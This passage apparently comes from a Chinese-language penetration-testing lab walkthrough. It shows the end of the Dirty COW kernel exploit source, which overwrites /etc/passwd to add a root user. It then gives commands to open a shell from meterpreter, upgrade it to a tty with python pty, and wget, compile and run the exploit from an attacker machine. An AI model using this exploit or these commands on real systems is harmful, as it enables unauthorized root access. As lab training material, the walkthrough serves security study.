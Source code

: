 ```c
        for (u = 0; u < 10000; u++)
        {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long *)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n", c);
  }
  else
  {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth, NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
         user.username, plaintext_pw);
  printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
         backup_filename, filename);
  return 0;
}
```

- 转换shell

```
meterpreter > shell
```

- 将shell转换为交互式的tty

```
python -c 'import pty;pty.spawn("/bin/bash")'  
```

![image-20210921121423380](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211214614.png)

- 脏牛提权

```
cd /tmp
wget 192.168.100.143/dirty.c
gcc -pthread dirty.c -o exp -lcrypt
./exp xiuxiu
```

![image-20210921122551693](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211225986.png)
